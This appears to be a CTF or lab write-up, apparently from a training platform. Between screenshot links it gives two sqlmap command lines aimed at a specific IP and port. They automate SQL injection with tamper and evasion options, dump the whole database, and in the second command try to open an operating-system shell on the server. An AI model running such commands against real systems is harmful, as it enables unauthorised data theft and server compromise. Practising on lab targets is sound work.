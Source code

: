 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/cc9c4810-ef5b-4986-9878-d959e54f6324)

sqlmap -u "http://62.173.140.174:18600/?id=" --batch --level=2 --risk=3 --random-agent -v --tamper=space2comment --all

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7c3a765f-9994-4d48-b940-2f215409fbcc)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b0216498-dfbe-4937-b63a-fa327740ee9e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/267241a5-6d76-4b1c-aac7-126e77fbd326)

'sqlmap -u "http://62.173.140.174:18600/?id=" --batch --level=2 --risk=3 --random-agent -v --tamper=space2comment --all --os-shell'

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3fbe28b5-9c1a-4731-9002-64cd210059e4)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/83464127-58a8-4db0-aaaf-a091255019fc)


